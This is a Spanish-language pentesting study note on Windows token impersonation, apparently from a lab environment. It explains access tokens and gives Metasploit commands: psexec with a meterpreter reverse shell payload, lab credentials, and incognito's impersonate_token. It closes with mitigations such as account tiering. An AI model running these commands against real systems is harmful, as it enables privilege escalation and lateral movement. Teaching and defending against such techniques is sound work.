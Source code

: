 # 🧠 ¿Qué es el **Token Impersonation**?

Cuando accedes a un sistema, Windows genera un **token de acceso** para ti:

- Es como un **"pase temporal"** que dice quién eres y qué permisos tienes.
    
- Evita que tengas que volver a meter usuario/contraseña cada vez.
    
- Puedes pensarlo como una **cookie**, pero para autenticaciones de sistemas.
    

---

# 🎯 ¿Por qué importa en pentesting?

Si un atacante consigue **capturar o duplicar** un token válido de un usuario privilegiado (como un administrador), puede:

- **Hacerse pasar por ese usuario** (impersonation).
    
- **Realizar acciones como si fuera él** (copiar archivos, ejecutar comandos, moverse lateralmente).
    
- **Escalar privilegios** dentro del sistema o red.
    

---

# 🔥 Tipos de Tokens (en pentesting)

|Tipo|Descripción|
|---|---|
|**Delegate**|Token creado al **loguearse en la máquina** o usar **Escritorio Remoto (RDP)**. Permite autenticaciones completas.|
|**Impersonate**|Token de **sesiones no interactivas** (por ejemplo, cuando alguien monta una unidad de red o un script de inicio de sesión). Permite imitar acciones pero más limitadas.|

---

# 📌 Resumen sencillo

- **Tokens = pases de identidad temporales** en Windows.
    
- **Impersonation** = usar el pase de otro usuario para actuar como él.
    
- Es una **técnica muy usada** en ataques internos para **robar privilegios** sin necesidad de crackear contraseñas.



## ¿Cómo se hace?


```
msfconsole 
```


```bash
use exploit/windows/smb/psexec
```

```bash
set payload windows/x64/meterpreter/reverse_tc
```

```bash
set rhosts 192.168.0.231
```

```bash
set smbuser fcastle
```

```bash
set smbpass Mypassword1234!
```

```bash
set smbdomain MARVEL.local
```

```bash
run
```

El ***meterpreter*** de msfconsole tiene varios modulos, para verlos y cargarlos:


VERLOS:

```
load (y le damos tab para que nos salgan las opciones)
```

EJECUTARLOS:

```
load incognito (nombre del modulo)
```

Entonces para el impersonation ejecutaremos incognito

```bash
list_tokens -u
```

```bash
impersonate_token marvel\\fcastle
```


Para volver a nt-authority/system:

```shell
rev2self
```



# 🛡️ Mitigación del ataque de **Token Impersonation**

---

## 📚 Estrategias de mitigación:

### 1. **Limitar permisos de creación y uso de tokens**

- **Controlar qué usuarios y grupos** pueden crear o usar tokens de otros.
    
- Solo los procesos de confianza deberían poder generar o duplicar tokens de acceso.
    
- **Reducir el riesgo** de que usuarios maliciosos capturen o usen tokens privilegiados.
    

---

### 2. **Account Tiering (Segmentación de cuentas)**

- **Separar** cuentas de usuario normales de las cuentas administrativas.
    
- Los administradores solo deben usar cuentas elevadas en **servidores** y **equipos seguros**, nunca en estaciones de trabajo comunes.
    
- Así, aunque se capture un token en una máquina, **no tendrá privilegios altos**.
    

---

### 3. **Restricción de administradores locales**

- **Minimizar quién tiene privilegios locales** en cada máquina.
    
- Si todos son administradores locales, cualquier compromiso puede escalar fácilmente.
    
- Solo usuarios que realmente lo necesiten deben tener esos derechos.
    

---

# 🎯 Resumen práctico

|Mitigación|Impacto|
|---|---|
|Limitar creación de tokens|Menos riesgo de captura y uso malicioso|
|Segmentar cuentas (tiering)|Protege admins de ser robados en estaciones vulnerables|
|Restringir administradores locales|Dificulta movimientos laterales y escaladas de privilegios|